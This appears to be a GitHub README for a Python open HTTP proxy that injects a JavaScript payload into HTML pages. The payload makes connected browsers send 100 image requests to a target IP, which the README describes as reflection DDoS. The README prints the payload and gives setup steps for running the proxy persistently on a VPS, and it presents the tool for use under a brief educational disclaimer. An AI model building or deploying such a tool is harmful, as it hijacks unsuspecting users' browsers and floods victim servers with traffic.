 # 🧠 Reflection DDoS via Open HTTP Proxy

This project is a Python-based open HTTP proxy that injects JavaScript into HTML responses. The injected script forces connected browsers to generate multiple outbound requests to a target server, simulating a reflection-based DDoS attack where unsuspecting clients become amplifiers.

## Features

- Open HTTP proxy on port 8080

- Injects JavaScript payload into HTML responses

Payload creates multiple image requests to a specified victim IP

Lightweight — no dependencies beyond the standard library

Ideal for research, educational labs, or pentesting your own systems


## How It Works

1. Clients connect through the proxy.

2. The proxy forwards HTTP traffic.

3. If the response is HTML, it appends a script that loads 100 image URLs from the victim server.

4. Each client unknowingly reflects traffic toward the target IP.


### Example Payload
```
<script>
  for (let i = 0; i < 100; i++) {
    let img = new Image();
    img.src = "http://198.51.100.77/img" + i + ".jpg";
  }
</script>
```
Replace 198.51.100.77 with your own controlled test server IP.


## Setup

1. Clone the repo.

2. Run the proxy:
```
python3 proxy.py
```

3. On a test browser, configure HTTP proxy to point to your VPS IP on port 8080.

4. Visit an HTTP (non-HTTPS) website.

5. Monitor the target server for incoming traffic.


## Deployment Notes

Use nohup, screen, tmux, or systemd to keep it running.

Ensure port 8080 is open on both UFW and your VPS firewall panel.


## Disclaimer

This tool is provided for educational and testing purposes only. Do not use it on unauthorized networks or systems. You are fully responsible for any misuse.
